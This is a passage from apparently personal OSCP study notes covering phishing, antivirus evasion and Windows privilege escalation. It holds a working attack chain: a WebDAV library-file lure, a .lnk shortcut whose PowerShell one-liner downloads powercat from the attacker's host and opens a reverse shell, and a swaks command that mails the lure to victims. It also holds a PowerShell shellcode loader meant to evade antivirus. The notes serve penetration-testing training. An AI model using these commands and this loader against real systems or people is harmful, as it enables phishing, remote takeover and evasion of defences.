 	</searchConnectorDescriptionList>
	</libraryDescription>

	4. When they click this code, it will open the webDAV directory and show whichever files we placed in `/home/kali/webDAV`. So we need to add a `.lnk` file there. 
	5. Right click on Windows desktop and click New > Shortcut. 
	6. Sample command: `powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$kaliIP/powercat.ps1'); powercat -c $kaliIP -p 4444 -e powershell"`
		1. For this command to work, we also need to be serving powercat from port 80 and running a reverse listener on port 4444. 
	7. Click next. Save it as what will sound right to the victim. 
	8. Send the victim the `config.Library-ms` file, they will open it, and then hopefully execute the `.lnk` file. 
	9. Swaks example: `sudo swaks -t victim@domain.com -t victim2@domain.com --from attacker@domain.com --attach @config.Library-ms --server $mailServerIP --body @body.txt --header "Subject: Example Email" --suppress-data -ap`
		1. Where `-t` = to, `suppress-data` means to summarize info regarding SMTP transactions, and `-ap` enables password authentication

## Antivirus Evasion
As these are my OSCP notes, and AV Evasion is outside the scope of the exam, I'm mostly leaving this content out of the guide for brevity. Below is a script for manual exploitation. It must be saved as an .ps1 file, transferred to the victim Windows machine, and ran (after powershell -ep bypass). 

    $code = '
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
    [DllImport("msvcrt.dll")]
    public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
    
    $winFunc = 
      Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
    
    [Byte[]];
    [Byte[]]$sc = <place your shellcode here>;
    
    $size = 0x1000;
    
    if ($sc.Length -gt 0x1000) {$size = $sc.Length};
    
    $x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
    
    for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
    
    `$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };`


### TCM Notes Windows Privesc Notes

Service Control:
- `sc query windefend` - checks Windows Defender
- `sc queryex type= service` - shows all services running on the machine
